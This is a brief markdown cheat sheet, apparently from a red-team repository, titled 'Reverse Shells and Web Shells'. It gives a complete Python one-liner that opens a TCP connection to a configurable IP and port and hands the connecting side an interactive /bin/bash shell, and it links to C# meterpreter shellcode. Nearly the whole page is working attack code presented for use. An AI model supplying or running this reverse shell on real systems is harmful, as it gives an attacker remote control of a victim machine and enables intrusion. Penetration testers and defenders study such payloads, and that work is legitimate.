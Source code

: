 # Reverse Shells and Web Shells

#### Python one liner TCP reverse shell
```python3 -c 'IP="127.0.0.1";PORT=4444;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

[C# meterpreter shellcode](https://github.com/redteaminterac/shells/blob/main/csharp/meterpreterShellcode.cs)
